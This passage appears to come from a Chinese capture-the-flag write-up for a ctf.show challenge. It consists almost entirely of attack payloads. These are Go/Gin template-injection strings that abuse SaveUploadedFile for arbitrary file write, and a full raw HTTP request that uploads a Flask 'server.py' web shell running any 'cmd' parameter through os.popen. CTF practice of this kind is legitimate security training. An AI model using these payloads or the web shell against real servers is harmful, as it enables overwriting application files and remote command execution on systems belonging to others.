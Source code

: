 直接 cat 即可

**payload 2**

```plain
{{c.SaveUploadedFile(c.FormFile(c.ClientIP()),c.Query(c.ClientIP()))}}
#或者
{{c.SaveUploadedFile(c.FormFile(c.Request.Host),c.Request.Referer())}}
```

最终 payload

```plain
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.Request.UserAgent()),c.Request.UserAgent())}} HTTP/1.1
Host: 40802932-2116-47e3-8daa-197a8c7f52d7.challenge.ctf.show
Pragma: no-cache
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrxtSm5i2S6anueQi
User-Agent: Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Mobile Safari/537.36 Edg/113.0.1774.50
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.2.302713316.1678960921; session-name=MTY5MDc3MzU2MHxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXzuHa5qg0Ih9XrL5lJnL_2P1GR4TmLkG4O6giX1tuQtxQ==
Upgrade-Insecure-Requests: 1
Content-Length: xxx

------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name=自己 ip; filename="server.py"
Content-Type: text/x-python

from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/shell')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        return os.popen(cmd).read()
    else:
        return 'shell'

if __name__== "__main__":
    app.run(host="127.0.0.1",port=5000,debug=True)
------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="submit"
```

